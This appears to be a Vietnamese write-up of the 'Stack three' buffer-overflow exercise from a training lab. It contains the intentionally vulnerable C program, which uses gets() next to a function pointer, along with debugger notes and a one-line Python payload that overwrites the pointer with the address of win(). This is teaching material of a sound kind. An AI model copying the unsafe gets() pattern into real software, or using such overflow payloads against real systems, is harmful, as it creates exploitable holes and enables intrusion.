




# Stack three

source code của chương trình
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

chương trình này sẽ kiểm tra nếu fp khác 0 thì sẽ gọi hàm tại địa chỉ fp
như vậy chúng ta chỉ cần làm cho chương trình ghi đè fp làm địa chỉ của hàm win

bắt đầu debug chương trình

ta thấy `0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0` là hàm kiểm tra xem fp có phải là 0 không, nếu có thì nhảy đến `main +63`, nếu không thì lấy địa chỉ được chứa bên trong `[esp+0x5c]` ra và thực hiện hàm print.
Điểm quan trọng chúng ta cần chú ý là `0x08048475 <main+61>:   call   eax`
trong đó eax chứa fp.
Bây giờ chúng ta sẽ ghi đè sao cho fp chứa địa chỉ của win:
Để xem địa chỉ của win() chúng ta có thể dùng 
>p win

hoặc 
> x win



tức là lúc này fp phải có địa chỉ "\x24\x84\x04\x08"
nhưng ở bài này ta không thể in ra các ki tự như trước rồi truyền vào file thực thi ./stack3 vì đây là các kí tự không thể in ra được.
do vậy ta phải viết 1 chương trình python, lưu kết quả in ra vào 1 file /tmp/exp và truyền nó vào chương trình

```py
print("A"*64 +  "\x24\x84\x04\x08")
```


sau đó


done~